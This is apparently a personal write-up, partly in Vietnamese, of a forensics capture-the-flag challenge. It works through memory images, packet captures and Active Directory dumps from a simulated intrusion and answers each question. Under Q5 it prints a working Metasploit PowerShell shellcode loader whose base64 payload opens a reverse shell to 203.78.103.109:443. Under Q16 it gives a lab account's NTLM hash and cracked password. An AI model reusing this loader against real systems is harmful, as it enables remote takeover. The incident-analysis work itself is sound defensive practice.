








### Q1 What’s the Operating System version of the Server? (two words) {#34c7b0eb61a48017a674d18392787f6d}


Windows Server 2012 R2 Standard Evaluation


### Q2 What’s the Operating System of the Desktop? (four words separated by spaces) {#34c7b0eb61a4803396aec3fbdc996e5c}


**Windows 10 Enterprise Evaluation**


### Q3 What was the IP address assigned to the domain controller? {#34c7b0eb61a4802faef3ca0e987bc547}


10.42.85.10


### Q4 What was the timezone of the Server? {#34c7b0eb61a480009df8fe1e42d669d4}


UTC-6 - do admin cài nhầm





Xem timeline thì thấy chậm 1 tiếng





### Q5 What was the initial entry vector (how did they get in)?. Provide protocol name.  {#34c7b0eb61a480b29666dcb999257ac5}


```powershell
function pLBA {
	Param ($kuL, $fc)		
	$wk = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	
	return $wk.GetMethod('GetProcAddress', **[Problem Internal Link]**, ($wk.GetMethod('GetModuleHandle')).Invoke($null, @($kuL)))), $fc))
}

function na {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $y11oC,
		[Parameter(Position = 1)] [Type] $ez_E = [Void]
	)
	
	$pMBl = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$pMBl.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $y11oC).SetImplementationFlags('Runtime, Managed')
	$pMBl.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ez_E, $y11oC).SetImplementationFlags('Runtime, Managed')
	
	return $pMBl.CreateType()
}

[Byte[]]$dhqT = [System.Convert]::FromBase64String("/EiD5PDozAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdBmgXgYCwIPhXIAAACLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpS////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCAAG7y05nbUFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1WoBQV5QUE0xyU0xwEj/wEiJwkj/wEiJwUG66g/f4P/VSInHahBBWEyJ4kiJ+UG6maV0Yf/VhcB0DEn/znXlaPC1olb/1UiD7BBIieJNMclqBEFYSIn5QboC2chf/9VIg8QgXon2akBBWWgAEAAAQVhIifJIMclBulikU+X/1UiJw0mJx00xyUmJ8EiJ2kiJ+UG6AtnIX//VSAHDSCnGSIX2deFB/+c=")
		
$kF5 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pLBA kernel32.dll VirtualAlloc), (na @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $dhqT.Length,0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($dhqT, 0, $kF5, $dhqT.length)

$vAZH = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pLBA kernel32.dll CreateThread), (na @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$kF5,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((pLBA kernel32.dll WaitForSingleObject), (na @([IntPtr], [Int32]))).Invoke($vAZH,0xffffffff) | Out-Null

```


Dấu hiệu của mã độc x64 tạo từ metasploit 


```c++
Loaded 1bd bytes from file shellcode.bin
Initialization Complete..
Running...

401083  LoadLibraryA(ws2_32)
401095  WSAStartup(202)
4010A4  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
4010C1  connect(h=44, addr: 203.78.103.109, port: 443)
```


### Q6 What was the malicious process used by the malware? (one word) {#34c7b0eb61a4807d8df4c83410891145}


PE TimeDateStamp        Sun Aug 11 05:47:24 2069
SystemTime      2020-09-19 05:10:39+00:00


NtProductType   NtProductWinNt
NtMajorVersion  10


coreupdater


### Q7 Which process did malware migrate to after the initial compromise? (one word) {#34c7b0eb61a48003badcff4d379f97ea}


```powershell
2188    spoolsv.exe     0x1840000       0x1863fff       VadS    PAGE_EXECUTE_READWRITE  36      1       Disabled        MZ header
4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 MZ..............
b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 ........@.......
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
00 00 00 00 00 00 00 00 00 00 00 00 e0 00 00 00 ................
0x1840000:      pop     r10
0x1840002:      nop
0x1840003:      add     byte ptr [rbx], al
0x1840005:      add     byte ptr [rax], al
0x1840007:      add     byte ptr [rax + rax], al
0x184000a:      add     byte ptr [rax], al
```


### Q8 Identify the IP Address that delivered the payload. {#34c7b0eb61a4800e8f77e167b3a45899}


10.42.85.115 (PC)


| 10.42.85.115 | 10.42.85.10     |                                                                                                                 |
| ------------ | --------------- | --------------------------------------------------------------------------------------------------------------- |
|              | 104.119.185.124 | akamai                                                                                                          |
|              | 204.79.197.200  | bing                                                                                                            |
|              | 10.90.90.90     | bing                                                                                                            |
|              | 13.107.21.200   | bing                                                                                                            |
|              | 151.101.1.67    | cnn                                                                                                             |
| 10.42.85.115 | 72.21.81.240    |                                                                                                                 |
|              | 104.111.89.205  |                                                                                                                 |
|              | 143.204.26.146  | s.ss2.us                                                                                                        |
|              | 143.204.26.213  |                                                                                                                 |
|              | 13.225.41.147   | User-Agent: Microsoft-CryptoAPI/10.0<br/>Host: [ocsp.sca1b.amazontrust.com](http://ocsp.sca1b.amazontrust.com/) |


ip.src == 10.42.85.115 && http


194.61.24.102 (other)





eed41b4500e473f97c50c7385ef5e374 là trojan của metasploit


ta biết thằng 194.61.24.102





### Q9 What IP Address was the malware calling to? {#34c7b0eb61a48036a71ad40d702562f7}


```c++
Loaded 1bd bytes from file shellcode.bin
Initialization Complete..
Running...

401083  LoadLibraryA(ws2_32)
401095  WSAStartup(202)
4010A4  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
4010C1  connect(h=44, addr: 203.78.103.109, port: 443)
```


### Q10 Where did the malware reside on the disk? {#34c7b0eb61a4802ba6ced498a9b92804}


C:\Windows\System32\coreupdater.exe


8324	4008	coreupdater.ex	0xbe8e7a447080	0	-	3	False	2020-09-19 03:40:49.000000 UTC	2020-09-19 03:43:10.000000 UTC	\Device\HarddiskVolume3\Windows\System32\coreupdater.exe	-	-


### Q11 What's the name of the attack tool you think this malware belongs to? (one word) {#34c7b0eb61a480c69923da85c1c0cf31}


Metasploit


### Q12 One of the involved malicious IP's is based in Thailand. What was the IP? {#34c7b0eb61a48038bb81ca588f1116d6}


`─$ strings pid.8324.dmp|  grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)" | sort | uniq -c | sort -nr > ip.txt`


http://209.141.54.161/f us


69.31.84.223 us


12.17.10.8 us


158.69.199.223 ca


5.5.7.3 germany


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org]
└─$ vol2 -f citadeldc01.mem imageinfo       
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win8SP0x64, Win81U1x64, Win2012R2x64_18340, Win2012R2x64, Win2012x64, Win8SP1x64_18340, Win8SP1x64 (Instantiated with Win8SP1x64)
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/cuong_nguyen/Desktop/cyberdefenders.org/citadeldc01.mem)
                      PAE type : No PAE
                           DTB : 0x1a7000L
                          KDBG : 0xf800cba9ba20L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff800cbaea000L
                KPCR for CPU 1 : 0xffffd0019fd55000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-09-19 04:39:59 UTC+0000
     Image local date and time : 2020-09-18 21:39:59 -0700

```


```c++
Instantiating KDBG using: Unnamed AS Win8SP0x64 (6.2.9200 64bit)
Offset (V)                    : 0xf800cba9ba20
Offset (P)                    : 0x249ba20
KdCopyDataBlock (V)           : 0xf800cb9dd6d8

```





203.78.103.109:443


### Q13 Another malicious IP once resolved to klient-293.xyz . What is this IP? {#34c7b0eb61a48005a405c17f1e1beb9e}


194.61.24.102


### Q14 The attacker performed some lateral movements and accessed another system in the environment via RDP. What is the hostname of that system? {#34c7b0eb61a480188b49f27757de4e26}


 10.42.85.115 [DESKTOP-SDN1RPT] [DESKTOP-SDN1RPT.local] [desktop-sdn1rpt] [DESKTOP-SDN1RPT.C137.local] (Windows)


### Q15 Other than the administrator, which user has logged into the Desktop machine? (two words) {#34c7b0eb61a480ccb0e0cd1031841880}


rick sanchez


### Q16 What was the password for "jerrysmith" account? {#34c7b0eb61a48019aa15e74d3f650713}


Dùng secretdump.py


Không dùng SAM bởi vì không có user này


`ntds.dit` (New Technology Directory Service - Directory Information Tree) là một file **cơ sở dữ liệu trung tâm** của Active Directory (AD).


jerrysmith:1104:aad3b435b51404eeaad3b435b51404ee:bc51f858ccacc9db408c0ba511d5d639:::
bc51f858ccacc9db408c0ba511d5d639:!BETHEYBOO12!


### Q17 What was the original filename for Beth’s secrets? {#34c7b0eb61a48060afd5e9ad7abf23cf}


### Q18 What was the content of Beth’s secret file? ( six words, spaces in between) {#34c7b0eb61a480a4a4c3cdf3c0ae23ea}


Trên DC01 có file share





Tuy nhiên câu hỏi là was








1. File `$R...` (Dữ liệu gốc - Restore)


Như bạn thấy trong ảnh `image_b21dd9.png`, file `$RU2L112.txt` chứa nội dung: _"Earth beth is the real beth."_

- **Bản chất:** Đây chính là **nội dung gốc** của file đã bị xóa.
- **Tên gọi:** Chữ **R** viết tắt cho **Recovery** hoặc **Result**. Windows đổi tên file gốc thành một chuỗi ký tự ngẫu nhiên để tránh trùng lặp trong thùng rác, nhưng vẫn giữ nguyên phần mở rộng (ví dụ `.txt`).

2. File `$I...` (Siêu dữ liệu - Information)


Trong ảnh `image_b21dc0.png`, file `$IU2L112.txt` chứa một chuỗi trông như đường dẫn: `...\FileShare\Secret\SECRET_beth.txt`

- **Bản chất:** Đây là file **siêu dữ liệu (Metadata)**. Nó không chứa nội dung văn bản bạn đọc được, mà chứa các thông tin "hậu trường" để Windows biết đường mà phục hồi file.
- **Thông tin bên trong file** **`$I`** **bao gồm:**
	- **Đường dẫn gốc (Original Path):** File này nằm ở đâu trước khi bị xóa? (Như trong ảnh là thư mục `Secret`).
	- **Kích thước file:** File gốc nặng bao nhiêu?
	- **Thời điểm xóa:** File bị ném vào thùng rác vào lúc nào?

### Q19 The malware tried to obtain persistence in a similar way to how Carbanak malware obtains persistence. What is the corresponding MITRE technique ID? {#34c7b0eb61a480ceaf21c96eb092f441}


T1543.003

